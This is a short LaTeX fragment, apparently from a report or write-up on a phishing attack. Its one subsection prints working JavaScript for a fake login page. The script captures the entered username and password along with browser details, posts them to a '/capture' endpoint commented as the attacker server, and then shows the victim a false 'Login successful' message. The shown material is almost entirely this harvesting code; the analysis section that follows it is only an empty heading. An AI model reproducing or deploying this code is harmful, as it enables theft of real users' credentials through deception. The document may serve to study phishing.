 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsubsection{Credential Capture JavaScript}

Advanced JavaScript handles form submission and credential transmission:

\begin{lstlisting}[language=javascript, caption=Credential Capture JavaScript]
document.addEventListener('DOMContentLoaded', function() {
    const form = document.getElementById('login-form');
    
    form.addEventListener('submit', function(e) {
        e.preventDefault();  // Prevent normal form submission
        
        const username = document.getElementById('username').value;
        const password = document.getElementById('password').value;
        
        if (!username || !password) {
            showError('Please enter both username and password');
            return;
        }
        
        // Prepare credential data
        const requestData = {
            username: username,
            password: password,
            timestamp: new Date().toISOString(),
            userAgent: navigator.userAgent,
            referrer: document.referrer
        };
        
        // Send credentials to attacker server
        fetch('/capture', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify(requestData)
        })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                showSuccess('Login successful!');
                // Clear form
                document.getElementById('username').value = '';
                document.getElementById('password').value = '';
            } else {
                showError('Login failed. Please try again.');
            }
        })
        .catch(error => {
            console.error('Error:', error);
            showError('Connection error. Please try again.');
        });
    });
});
\end{lstlisting}

\section{Attack Execution and Analysis}
\end{document}
